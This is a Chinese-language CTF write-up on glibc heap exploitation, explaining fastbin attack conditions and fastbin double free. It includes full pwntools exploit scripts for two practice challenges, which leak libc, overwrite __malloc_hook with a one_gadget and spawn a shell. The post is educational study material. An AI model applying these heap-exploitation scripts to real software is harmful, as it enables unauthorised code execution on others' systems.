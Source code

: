```yaml
---
layout: post
title: fastbin_attack小记
category: Heap
date: 2023-9-23 21:04:32
---
```

fastbin_attack
<!-- more -->
[toc]
# fastbin attack

首先要知道`fastbin`的`chunk`的大小范围。

> 32位下，fastbin chunk的范围是16字节 - 64字节（0x10 - 0x40）
>
> 64位下，fastbin chunk的范围是32字节-128字节（0x20 - 0x80）
>
> 注意，这是加上header的大小。

`fastbin`方法流程比较简单，即通过某种手段能够控制`fastbin`中的`chunk`的`fd`指针时，将其指向一个想要往其写入数据的地方，这样再次`malloc`这个大小的`chunk`的时候就可以将这个地方分配为`chunk`，达到任意地址写的效果。但是条件如下：

- fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- **fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。**
- fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

要注意，被指向的地方的`chunk header`中的`size`必须满足`fastbin`的要求，即大小和`fastbin`中指向该`fake chunk`的`chunk`大小相同。若无法直接找到，可以利用地址偏移一些来寻找，也可以借助工具，比如`pwndbg`中可以使用`find_fast_chunk addr`来寻找一个可以覆盖掉`addr`地址的`chunk`。

例题是0ctf_2017_nanyheap：

整体思路是使用`unsort bin`泄露`main_arena`（`unsort bin`在只有一个`chunk`的时候`fd`和`bk`都指向`main_arena`的某个固定偏移处），再通过`main_arena`计算偏移得到`libc`和其他函数地址。

之后使用`fastbin attack`来向`__malloc_hook`中写入`one_gadget`算出来的`gadget`即可。注意，本来`malloc_hook`前是没有明显的可以分配的`fastbin`大小的`chunk`的，但是可以通过小部分偏移来得到刚好可以覆盖掉`__malloc_hook`的`chunk`，此处在`pwngdb`使用命令`find_fast_chunk &__malloc_hook`即可。

```python
# value
# size
# pointer -> malloc(size)
from pwn import *
from LibcSearcher import *

filename = './0ctf_2017_babyheap'
context(log_level='debug')
local = 1
elf = ELF(filename)
# libc = ELF('./libc.so.6')
# libc = ELF('/home/ltfall/Desktop/pwn/buuctf_libc/ubuntu16_64/libc-2.23.so')

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', 25212)

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

def allocate(size):
    sh.sendlineafter(': ', '1')
    sh.sendlineafter(': ', str(size))

def fill(index, size, content):
    sh.sendlineafter(': ', '2')
    sh.sendlineafter(': ', str(index))
    sh.sendlineafter(': ', str(size))
    sh.sendafter(': ', content)

def free(index):
    sh.sendlineafter(': ', '3')
    sh.sendlineafter(': ', str(index))

def dump(index):
    sh.sendlineafter(': ', '4')
    sh.sendlineafter(': ', str(index))

# 首先申请三个0x80的chunk，大概思路是先free第1个chunk，然后通过第0个chunk溢出修改第1个chunk的head，让OS误认为chunk1的大小是chunk1+chunk2
# 此时申请回chunk1，但是chunk1此时就是chunk1+chunk2两个块重合了，然后因为题目里面是calloc，因此将变成0的恢复，然后free掉chunk2，chunk2将会被添加到unsortbin
# 因此chunk2的fd和bk都会指向main_arena，此时打印chunk1，打印的实际上是chunk1+chunk2两个块，因此可以打印出chunk2的fd和bk，并由此得出&main_arena、libc_addr。
allocate(0x80)
allocate(0x80)
allocate(0x80)
allocate(0x20) # 没有这个 做不出来 挺怪的
free(1)
fill(0, 0x90, b'a'*0x80 + p64(0) + p64(0x121))
allocate(0x110)
payload = b'a'*0x80 + p64(0) + p64(0x91) + b'c'*0x80 
fill(1, len(payload), payload)
free(2)
dump(1)
main_arena = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x58
info('the addr of main_arena is {}'.format(hex(main_arena)))
libc_addr = main_arena - 0x3c4b20
info('the libc addr is {}'.format(hex(libc_addr)))
fake_chunk_addr = libc_addr + 0x3c4aed
info('the fake_chunk_addr is {}'.format(hex(fake_chunk_addr)))
malloc_hook = libc_addr + 0x3c4b10
info('the addr of malloc_hook is {}'.format(hex(malloc_hook)))

# 接下来是fastbin attack
allocate(0x80) # 还原
# 此时到这里 前面几个chunk不管了 接下来是以chunk4开始的fast bin大小的chunk
allocate(0x60) # chunk4
allocate(0x60) # chunk5
free(5)
payload = b'd'*0x60 + p64(0x70) + p64(0x71) + p64(fake_chunk_addr)
fill(4, len(payload), payload)
allocate(0x60) # 还是chunk5
allocate(0x60) # chunk6

one_gadget = 0x4526a
payload = b'a'*(0x23 - 0x10) + p64(libc_addr + one_gadget)
fill(6, len(payload), payload)

allocate(0x10)
sh.interactive()
```

## Double Free

顾名思义，也就是将一个已经在`fastbins`里面的`chunk`再次添加到`fastbins`里面去，添加完成后就会有两个同样的`chunk`在一个`bins`里面。

比如：

```c
void* chunk1 = malloc(0x10);
void* chunk2 = malloc(0x10);

free(chunk1);
free(chunk2);
free(chunk1);
```

这样一来，在`fastbins`的大小为`0x20`的`bin`中，就会有：

![image-20230217172959638](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311211712862.png)

因为`chunk1`指向`chunk2`，因此最右边的`chunk1`也会指向`chunk2`。

**值得注意的是，`fastbin`会对直接与`main arena`连接的`chunk`进行检查，因此必须借助第二个`chunk`才可以让两个一样的`chunk`都在同一个`bins`里面。**

有什么用呢？

若此时我们再申请一个`chunk`，那么左边的`chunk1`将会被申请到，若我们能够修改`chunk1`，便相当于修改了还在`fastbins`里面的右边的`chunk`的`fd`指针。如此以来，若当目前在`fastbins`里面的`chunk`都被`free`了，由于最右边的那个`chunk1`的`fd`指针是我们设计的值，那么接下来再进行`malloc`操作时，便会将我们设计的值作为地址，将我们指定的地址作为一个`chunk`返回给我们。相当于是实现了一个任意地址写的功能。

**但没有那么简单，我们设计的值作为地址的地方要作为`chunk`返回，必须要满足一个条件，即这个`chunk`的`size`值必须和`bins`单链表里面的其他`chunk`相同。**这样一来就没有问题了。

#### 例题wustctf2020_easyfast

exp

```python
# uaf漏洞，借助了0x602088处的有一个50的值，因为double free任意写的chunk的size必须和分配的相等，不然报错。

from pwn import *

context(log_level='debug')

elf = ELF('./wustctf2020_easyfast')
# sh = process('./wustctf2020_easyfast')
sh = remote('node4.buuoj.cn', 27643)

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

def add(size):
    sh.recvuntil('choice>\n')
    sh.sendline('1')
    sh.recvuntil('size>\n')
    sh.sendline(str(size))

def delete(index):
    sh.sendlineafter('choice>\n', '2')
    sh.sendlineafter('index>\n', str(index))
    
def modify(index, content):
    sh.sendlineafter('choice>\n', '3')
    sh.sendlineafter('index>\n', str(index))
    sh.send(content)

add(0x40)
add(0x40)

delete(0)
delete(1)
delete(0)

modify(0, p64(0x602080))

# debug()
add(0x40)
add(0x40)

modify(3, p64(0))

sh.recvuntil('>\n')
sh.sendline('4')

sh.interactive()
```

# 